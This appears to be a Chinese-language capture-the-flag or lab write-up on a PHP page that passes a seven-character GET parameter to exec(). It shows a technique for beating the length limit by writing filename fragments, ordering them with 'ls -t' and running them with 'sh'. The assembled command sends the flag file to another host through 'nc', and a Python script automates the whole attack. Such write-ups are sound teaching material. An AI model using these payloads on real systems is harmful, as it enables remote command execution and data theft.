


```php
<?php
highlight_file(__FILE__);
error_reporting(E_ALL);

function filter($argv)
{
	// 将 ?和* 替换为 =====
    $a = str_replace("/\*|\?|/", "=====", $argv);
    return $a;
}

if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 7) {
    exec(filter($_GET['cmd']));
} else {
    echo "flag in local path flag file!!";
}
?>
```
**方法**
```
期望执行命令cat flag | nc 192.168.245.128 7777
>创建很短的文件名
ls -rt或ls -t 按顺序列出文件名
\分割为更段的命令
sh读取文件命令
```

**尝试**
不选ls -rt 是因为原本当前目录下的文件会干扰，必须将其排序到末尾！
```
cat flag|nc 192.168.245.128 7777
适用ls -t 则按正常顺序创建文件
?cmd=>ca\\
?cmd=>t\ \\
?cmd=>fl\\
?cmd=>ag\\
?cmd=>\|n\\
?cmd=>c\ \\
?cmd=>192.\\
?cmd=>168.\\
?cmd=>245.\\
?cmd=>128\\
?cmd=>\ \\
?cmd=>7777
从下往上传参(get传参默认传递字符串索引无需引号包裹)

?cmd=ls -t>a 长度刚好为7
sh a
```



**脚本**
```python
import requests
import time

baseurl = "http://192.168.245.128:18090/class09/2/index.php?cmd="
s = requests.session()

payload_list = [
    'ls -t>a',
    '>ca\\',
    '>t\ \\',
    '>fl\\',
    '>ag\\',
    '>\|n\\',
    '>c\ \\',
    '>192.\\',
    '>168.\\',
    '>245.\\',
    '>128\\',
    '>\ \\',
    '>7777'
]
payload_reverse = list(reversed(payload_list))
for i in range(0, len(payload_reverse)):
    url = baseurl + str(payload_reverse[i])
    print(url)
    s.get(url)
    time.sleep(0.1)

s.get(baseurl + 'sh a')
# s.close()
```